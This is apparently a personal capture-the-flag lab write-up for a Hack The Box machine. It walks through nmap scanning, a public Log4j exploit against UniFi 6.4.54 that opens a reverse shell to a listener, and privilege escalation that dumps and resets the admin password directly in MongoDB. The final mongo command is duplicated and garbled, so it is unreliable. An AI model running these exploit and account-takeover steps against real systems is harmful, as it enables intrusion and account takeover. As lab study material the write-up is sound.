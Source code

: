 # Nmap

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.209.94 -oN nmap.basic`

![[Pasted image 20250526161318.png]]


==Deeper Nmap scan==
`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.209.94`

### Thoughts: 
1. We have three interesting open ports (6789, 8080, and 8443) Let's look into those starting with ==tomcat==

#### Google search on `ssl/nagios-ncsa` and `ibm-db2-admin`


## Going to the tomcat server shows this login screen: 
![[Pasted image 20250526161828.png]]

==Unifi 6.4.54?== What is that?

## There is an exploit for this version of unifi:
https://github.com/puzzlepeaches/Log4jUnifi
^^ It actually worked!

-> Compile payload with maven: `mvn package -f utils/rogue-jndi`
-> Run the exploit (don't forget your listener!): `python3 exploit.py -u https://10.129.209.94:8443 -i 10.10.16.85 -p 4444`
![[Pasted image 20250526180252.png]]


==User.txt==: 6ced1a6a89e666c0620cdb10262ba127

## Getting root:
1. uploaded linpeas and ran it
2. Kernel: `Linux unified 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`


### Found a mongo database, how do we interact with that?
![[Pasted image 20250526182905.png]]


## Print users on the mongodb
-> I tried going into the command line and it did not work
It seems you have to execute them outside of the MongoDB

`mongo --port 27117 ace --eval 'db.admin.find().forEach(printjson);'`

#### Reset the admin password:
`mongo --port 27117 ace --eval 'db.admin.update({'_id':ObjectId('61ce278f46e0fb0012d47ee4')},{$set:{'x_shadow':'Password1234'}})’ <b0012d47ee4')},{$set:{'x_shadow':Password1234'}})'`

==Now we can login to ssh and get the root flag==




